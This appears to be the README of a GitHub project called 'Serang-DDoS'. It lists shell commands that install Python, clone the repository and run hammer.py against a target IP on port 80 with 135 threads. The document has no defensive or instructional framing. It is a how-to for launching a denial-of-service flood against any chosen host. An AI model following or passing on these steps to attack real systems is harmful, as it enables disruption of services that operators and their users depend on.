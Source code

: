 # Serang-DDoS
$ apt update && apt upgrade 
$ apt install python && apt install python2 
$ git clone https://github.com/rifai-rizqi3/Serang-DDoS
$ ls 
$ cd Serang-DDoS 
$ python hammer.py 
$ python3 hammer.py -s (IP target) -p (80) -t (135)